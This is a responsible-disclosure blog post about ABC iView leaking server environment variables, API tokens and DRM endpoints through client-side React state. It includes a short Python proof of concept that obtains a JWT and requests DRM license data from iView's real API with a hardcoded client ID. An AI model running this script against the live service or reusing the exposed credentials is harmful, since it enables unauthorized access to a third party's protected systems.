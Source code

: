 ```yaml
---
layout: "../../layouts/BlogPost.astro"
title: "iViewed your API keys"
description: "Reporting on a security issue on ABC's iView."
pubDate: "2022-04-14T00:20:00+10:00"
updatedDate: "2022-11-15T19:44:00+11:00"
heroImage: "https://btw.i-use-ar.ch/i/0mbhi.jpg"
---
```


iView, a streaming service for the ABC, Australia's state media broadcaster, has been plagued with security issues since at least mid-2021, which include the wholesale leak of the production server's environment variables on the client-side that we are discussing in this article.

## Key findings
- Specific DRM algorithms (e.g. Fairplay, for Apple devices) are utilised on iView with **expired** DRM keys.
- Tokens and license keys for services that were used on the iView site (e.g. [Algolia](https://www.algolia.com), which is used for search and [New Relic](https://newrelic.com), for program analytics) were also included in this set.
- Every past revision of the relevant JSON string is shown on the Wayback Machine, and has been the case since at least October 2021.

## The dataset
Accessing critical tokens used in the iView site is rather trivial, using the "View Source" function on all major desktop browsers.

### The 'how'
Since the iView application uses the [React](https://reactjs.org) framework, it leverages a feature called "states", which are sets of data that mutate and change inside React. The iView site specifically uses the "initial state", which stores default data, as well as data stored globally on the site, to store the configuration for the application.

### The 'what'
The dataset originally contained the environment variables of the application, which included the following:
- the IP and PATH variables of the AWS server that iView runs on,
- the app ID and token for [Algolia](https://algolia.com), which powers iView's search function,
- Widevine DRM validation, secrets and license generation endpoints,
- iView DRM authentication IDs,
- FairPlay DRM certificate URL,
- Seesaw (ABC's internal API) API URL,
- ABC recommendations API URL and token,
- License keys for [New Relic](https://newrelic.com), an application logging and tracing service.
- Gigya (third party login provider) tokens for client-side JavaScript libraries.

An example of this JSON is provided below:

![iView appConfiguration JSON](https://btw.i-use-ar.ch/i/njn5w.png)

### A deeper dive
Let's look at the other practices that iView might have taken based on the dataset provided, starting with the FairPlay certificate.

The alleged FairPlay certificate is stored at a public-facing URL, so it was trivial to grab it and review the certificate. Once downloaded, I saw that the certificate, seemingly generated by Apple's certificate authority, expired *two years ago*, on September 2019.

![iView FairPlay DRM certificate](https://btw.i-use-ar.ch/i/ojabw.png)

Continuing on the subject of DRM, Widevine DRM secrets, as well as endpoints were also implicated in the dataset, although since ABC uses L3 encryption, not much can be done with it, except retrieving DRM signatures for shows and streams, which are XML-formatted, but base64 encoded. A proof of concept is located below:

```python
#!/usr/bin/env python3

import requests, random, sys, os

user_agents = [
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36'
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0'
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36 Edg/99.0.1150.30'
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.109 Safari/537.36 OPR/84.0.4316.31'
    'Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0'
]

user_agent = random.choice(user_agents)

def get_jwt(video: str) -> str:
    r = requests.post('https://api.iview.abc.net.au/v2/token/jwt', headers={
            'Content-Type': 'application/x-www-form-urlencoded',
            'Origin': 'https://iview.abc.net.au',
            'Referer': video,
            'User-Agent': user_agent
        }, data={'clientId': '1d4b5cba-42d2-403e-80e7-34565cdf772d'})
    return r.json()['token']

def get_license(jwt: str, video: str) -> str:
    stripped = video.replace('https://iview.abc.net.au/video/', '')
    r = requests.get(f'https://api.iview.abc.net.au/v2/token/drm/{stripped}', headers={
        'Origin': 'https://iview.abc.net.au',
        'Referer': video,
        'Authorization': f'Bearer {jwt}',
        'User-Agent': user_agent
    })
    return r.json()['license']

if __name__ == "__main__":
    video = sys.argv[1]
    type = sys.argv[2]
    jwt = get_jwt(video)
    print(f'JWT: {jwt}')
    license = get_license(jwt, video)
    print(f'License: {license}') 
```

## The result
I had reported this to an ABC engineer back in December, after they reached out to me through an open call. They have since been progressively removing most of the sensitive configuration keys and values, but there are still some available, which are seemingly used for client-side functions. A lot of the original environment variables have been removed, though the only ones that remain are all prefixed with `IVIEW_` in the key.

## Can this be mitigated in the future?
Yes, through offloading a lot of services that currently are on the client side, as well as avoiding putting environment variables on client-facing scripts. 